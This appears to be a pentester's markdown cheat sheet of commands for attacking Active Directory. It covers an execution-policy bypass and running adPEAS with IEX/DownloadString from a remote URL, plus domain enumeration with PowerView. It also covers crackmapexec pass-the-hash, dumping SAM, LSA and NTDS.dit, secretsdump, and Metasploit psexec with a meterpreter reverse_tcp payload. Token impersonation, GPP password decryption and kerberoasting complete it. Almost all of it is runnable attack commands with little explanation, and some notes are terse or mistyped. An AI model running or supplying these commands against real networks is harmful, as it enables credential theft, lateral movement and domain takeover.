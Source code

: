 # PowerView
First we  need to shutdown execution policy using powershell
powershell -ep (or -ExecutionPolicy ) bypass
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
. .\ PowerView.ps1
Get-NetDomain *prints info about DC*
Get-NetDomainController *points at DC* 
Get-DomainPolicy *shows policies* 
(Get-DomainPolicy)."system access" More info about policies 
Get-NetGPO to show group Policies | selecy displayname, whenchanged
Get-ComputerInfo *Prints all info about the system*


# adPEAS 
https://github.com/61106960/adPEAS

start using one of the following:
```
Import-Module .\adPEAS.ps1
```
or
```
. . \adPEAS.ps1
```
or
```
gc -raw .\adPEAS.ps1 | iex
```
or
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

after starting adpeas we can then start enumerating 
start adPEAS with all enumeration modules and enumerate the domain the logged-on user and computer is connected to.

```
Invoke-adPEAS
```

Start adPEAS with all enumeration modules and enumerate the domain 'contoso.com'.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the domain controller 'dc1.contoso.com' for almost all enumeration requests.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the passed PSCredential object during enumeration.
```
$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword)
Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred
```


Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the username 'contoso\johndoe' with password 'Passw0rd1!' during enumeration.

```
Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'
```

# crackmapexec 
```
#passhash 
crackmapexec smb <IP/CIDR or range> -u <user> -H <hash> --local-auth

#passpassword
crackmapexec smb <IP/CIDR or range> -u <user> -d <domain> -p <pass> 

# gather creds
--sam to dump sam hahses
--lsa dump lsa secrets
--ntds dump NTDS.dit
```


# secretsdump
dumping hashes and secrets in windows
```
secretsdump.py DOMAIN/USER:PASSWORD@IP
```

# In msfconsole 
## psexec over msfconsole
```
use windows/smb/psexec
set rhosts TARGET IP
set smbdomain DOMAIN
set smbpass and smbuser
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```

- Token impersonation with incognito


after getting a shell with psexec we can load *Incognito*

```
load incognito
help
list tokens -u (to list the tokens on the machine)

impersonate_token THETOKEN

rev2self (to get back to the user u started with)
```

- gpp / cPassword attack

	Check for gpp attack
```
smb_enum_gpp moudle 
```

# GetUserSPNs.py
For kerberoasting (Capture TGT account's hash)
hashcat -m 13100
```
GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

# gpp-decrypt
gpp-decrypt <HASH>